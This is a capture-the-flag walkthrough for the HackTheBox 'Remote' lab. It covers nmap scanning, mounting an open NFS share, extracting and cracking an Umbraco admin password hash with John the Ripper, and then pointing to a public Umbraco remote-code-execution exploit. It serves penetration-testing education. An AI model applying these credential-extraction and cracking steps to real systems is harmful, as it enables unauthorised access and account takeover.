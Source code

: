 # Hacking `remote` Guideline

[Medium Page](https://medium.com/@CyberOPS.LittleDog/hackthebox-remote-82ae27c71de5)

## Tbot Guideline

### Phase 1: Reconnaissance and Planning

```
We can get the information from the lab Hackthebox, try to gather information as much as we can
 - OS
 - Hostname
 - IP
 - ...
Access the page from IP in browser, check is there any thing interested ^^ 
```

### Phase 2: Scanning

- Since we know the IP of that server, we can take scan it with [nmap](https://nmap.org/)

```sh
$ nmap -sC -sV -A 10.10.10.180
Nmap scan report for 10.10.10.180
Host is up (0.38s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 58s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-02T18:19:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 441.08 seconds
```

- The result above show us that this server `remote` has open port `21/tcp ftp-anon` and `80/tcp http` also the information `2049/tcp nfs` look interested.
- Lets check is there any share folder with [Showmount](https://docs.oracle.com/cd/E19683-01/817-1717/rfsrefer-34/index.html)

```
$ sudo showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

- Huh... let mount it down to our local storage

```
$ sudo mkdir site_backups
$ sudo mount 10.10.10.180:/site_backups site_backups/
```

- From the website of it we can know this site was made from the [CMS Umbraco](https://umbraco.com/) so we can check where is the password of admin for that right?

```
$ cd App_Data/
$ strings Umbraco.sdf | grep admin

Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" <admin@htb.local>umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" <admin@htb.local>umbraco/user/sign-in/loginlogin success
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/sign-in/logoutlogout success
...
```

- Copy the hash of Admin and put it file call `hash`, then using tool [John the Ripper](https://en.wikipedia.org/wiki/John_the_Ripper) with password list you can get from anywhere on the internet.

```
$ sudo john hash --format=Raw-SHA1 --wordlist=<your_folder_path>/rockyou.txt
...
?:baconandcheese
```

- Now you got these for the web-site admin page:
  * username: admin@htb.local
  * password: baconandcheese
- As we know the site was made by the [CMS Umbraco](https://umbraco.com/) so we can check its vulnerabilities on the internet and yeah... we can find out this beautiful script in [this repository](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py), just get it to your machine and ready for the attack.~~~~
